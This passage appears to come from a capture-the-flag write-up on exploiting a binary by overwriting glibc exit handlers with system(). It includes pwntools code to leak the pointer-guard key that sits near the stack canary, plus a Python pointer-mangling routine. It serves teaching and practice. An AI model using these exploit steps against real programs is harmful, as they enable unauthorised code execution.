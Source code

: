 For some reason, the exit handlers are writeable, so we can write our `system()` there and when the program exits, it will call `system()` instead.

Read up more about exit handlers [here](pictures/https://m101.github.io/binholic/2017/05/20/notes-on-abusing-exit-handlers.html).

All of the exit handler function address are "mangled", basically encrypted so an attacker can't just enter in their function there. As such, we have to leak the key (AKA pointer guard) they used to for their encryption.

The key to the exit handler is always right after the place where the canary is stored. We can find this place in GDB pwndbg with `canary` to find the canary addresses, and then `search -t qword <canary>`. 

![canary](pictures/canary.png)

The place where the original canary is stored is the first one.

Taking that, we can minus Libc base from it and add 8 to get the address where the key is stored.

After that we can leak it the same way we leaked Libc base.

```py
p.sendlineafter(b'>', b'3'.ljust(8) + pack(libcBase - 10392 + 8))
p.sendlineafter(b'>', b'11')
p.recvuntil(b'is\n')
ptrGuard = u64(p.recvline().strip().ljust(8, b'\x00'))
print(hex(ptrGuard))
```

PICTURE HERE

By the way, the function to encrypt our pointer is this:

```py
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

def ptrMangle(v, key):
    return p64(rol(v ^ key, 0x11, 64))
```
